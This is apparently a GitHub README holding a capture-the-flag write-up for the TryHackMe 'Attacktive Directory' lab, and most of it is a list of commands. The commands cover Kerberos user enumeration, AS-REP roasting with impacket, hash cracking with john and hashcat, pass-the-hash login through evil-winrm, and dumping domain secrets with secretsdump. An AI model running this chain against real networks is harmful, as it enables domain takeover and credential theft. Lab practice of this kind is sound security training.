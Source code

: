 <div align="center">
                  
# [Attacktive Directory](https://tryhackme.com/room/attacktivedirectory)
![image](https://user-images.githubusercontent.com/51442719/177435882-34e6b079-d835-4ae0-9e97-6b39078e0c16.png)

</div>

- [x] Task 1  [`Intro` Deploy The Machine]()
- [x] Task 2  [`Intro` Setup]()
- [x] Task 3  [`Enumeration` Welcome to Attacktive Directory]()
- [x] Task 4  [`Enumeration` Enumerating Users via Kerberos]()
- [x] Task 5  [`Exploitation` Abusing Kerberos]()
- [x] Task 6  [`Enumeration` Back to the Basics]()
- [x] Task 7  [`Domain Privilege Escalation` Elevating Privileges within the Domain]()
- [ ] Task 8  [`Flag Submission` Flag Submission Panel]()

---


---

- ## Task 1  [`Intro` Deploy The Machine]()

---

- ## Task 2  [`Intro` Setup]()

---

- ## Task 3  [`Enumeration` Welcome to Attacktive Directory]()

---

- ## Task 4  [`Enumeration` Enumerating Users via Kerberos]()

---

- ## Task 5  [`Exploitation` Abusing Kerberos]()

---

- ## Task 6  [`Enumeration` Back to the Basics]()

---

- ## Task 7  [`Domain Privilege Escalation` Elevating Privileges within the Domain]()

---

- ## Task 8  [`Flag Submission` Flag Submission Panel]()

---

# Commands Used:

## Enumeration
```bash
nmap -p- -A -nP $IP
```

## DNS domain name and add it to `/etc/hosts`
```bash
echo $IP spookysec.local >> /etc/hosts
```

```bash
enum4linux -a spookysec.local
```

```bash
kerbrute userenum -d spookysec.local --dc spookysec.local userlist.txt -t 100
```

```bash
find / -type f -name 'GetNPUsers.py'
```

## Exploiting Kerberos
```bash
impacket-GetNPUsers spookysec.local/svc-admin -no-pass
or
impacket-GetNPUsers -dc-ip spookysec.local spookysec.local/svc-admin -no-pass
```

```bash
smbclient -L \\\\$IP\\ -U 'svc-admin' -P 'm********t2005'
```

```bash
john kerbhash --wordlist=/passwords.txt
or
hashcat -a 0 -m 18200 kerbhash password.txt --force

```

```bash
smbmap -H spookysec.local -d spookysec.local -u svc-admin -p m********t2005
```

```bash
git clone https://github.com/Hackplayers/evil-winrm.git
```

```bash
cd evil-winrm 
gem install evil-winrm
```

```bash
evil-winrm -i $IP -u Administrator -H e48xxxxxxxxxxxxxxxxxxxxxxxxxxxxx
```

```bash
impacket-secretsdump -dc-ip spookysec.local backup@spookysec.local
```


---

- https://fr33s0ul.tech/attacktive-directory-thm-write-up/

# [Hash Analyzer](https://www.tunnelsup.com/hash-analyzer/)
